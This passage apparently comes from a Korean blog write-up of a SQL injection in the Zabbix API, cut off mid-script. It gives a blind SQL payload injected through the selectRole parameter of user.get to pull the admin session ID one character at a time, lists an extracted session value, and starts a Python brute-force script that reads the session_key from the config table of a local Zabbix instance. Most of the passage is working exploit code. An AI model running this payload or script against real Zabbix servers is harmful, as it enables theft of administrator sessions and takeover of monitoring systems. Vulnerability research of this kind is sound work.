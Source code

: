 ![/assets/2025-01-02-youngdu/image.png](/assets/2025-01-02-youngdu/image%206.png)

```sql
readonly AND IF(SUBSTRING((SELECT sessionid FROM sessions where userid=1 LIMIT 1),{i},1)='{char}',1,0)
```

sessions 테이블에 존재하는 userid가 1인(Admin) 계정의  `sessionid` 를 한글자씩 추출하는 코드입니다.

admin session : `f16aac39b446fc135e8ef19345e148d4`

1. session_key 탈취

```python
import requests

url = "http://localhost/zabbix/api_jsonrpc.php"
auth_token = "775b26ca0a9cb0e549daeb031f92a37b" 
headers = {
    "Content-Type": "application/json"
}

def extract_session_key():
    session_key = ""
    print("[*] Extracting session_key from config table...")

    for i in range(1, 50):  
        found_char = False
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            payload = {
                "jsonrpc": "2.0",
                "method": "user.get",
                "params": {
                    "selectRole": [
                        f"readonly AND IF(SUBSTRING((SELECT session_key FROM config LIMIT 1),{i},1)='{char}',1,0)"
                    ],
                    "userids": ["1"]
                },
                "id": 1,
                "auth": auth_token
            }

           
            response = requests.post(url, json=payload, headers=headers)
            result = response.json()

            try:
                
```